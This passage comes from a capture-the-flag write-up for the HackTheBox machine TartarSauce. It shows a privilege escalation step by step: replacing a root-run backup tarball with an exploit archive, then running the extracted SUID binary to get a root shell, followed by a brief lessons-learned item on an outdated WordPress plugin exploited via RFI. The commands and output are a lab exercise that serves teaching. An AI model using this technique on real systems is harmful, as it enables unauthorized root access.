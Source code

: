 The program generated backup compressed file is .e84f0\*\*\*\*. Replace it with our exploit file.

```text
cp exploit .e84f032e69e2e221528b5c1c2ea7fa946a905584
```

Now we just have to wait for 30 seconds \(sleep time\) before the .e84f0\*\*\*\* tar file \(which is really our exploit file\) is decompressed and saved in the directory check.

```text
onuma@TartarSauce:/var/tmp$ ls -la
total 44
drwxrwxrwt  9 root  root  4096 Jan 18 21:01 .
drwxr-xr-x 14 root  root  4096 Feb  9  2018 ..
-rw-r--r--  1 onuma onuma 2765 Jan 18 21:01 .e84f032e69e2e221528b5c1c2ea7fa946a905584
drwxr-xr-x  3 root  root  4096 Jan 18 21:01 check
-rw-r--r--  1 onuma onuma 2765 Jan 18 11:46 exploit
....
```

Enter the /_check/var/www/html_ directory.

```text
onuma@TartarSauce:/var/tmp$ cd check/var/www/html/
onuma@TartarSauce:/var/tmp/check/var/www/html$ ls -la
total 24
drwxr-xr-x 2 root root  4096 Jan 18 11:24 .
drwxr-xr-x 3 root root  4096 Jan 18 10:09 ..
-rwsr-xr-x 1 root root 15532 Jan 18 11:24 setuid
```

There we’ll see our setuid program with the SUID bit set! The reason the program still has the SUID bit set, is because when the compressed file was decompressed, it was decompressed with root privileges \(the privileges the program was running with\) and therefore, the permissions on the file were preserved.

Run the setuid program.

```text
onuma@TartarSauce:/var/tmp/check/var/www/html$ ./setuid
root@TartarSauce:/var/tmp/check/var/www/html# whoami
root
```

We are root! Grab the _root.txt_ flag.

![](../images/max/806/1*9SSylldbmqFqkWgQ5yCwNQ.png)

## Lessons Learned <a id="d067"></a>

To gain an initial foothold on the box we exploited one vulnerability.

1. Use of known vulnerable components. The WordPress application was using an outdated plugin which was vulnerable to RFI. This allowed us to run a reverse shell back to our attack machine. The administrator should have updated the plugin to the most recent version.
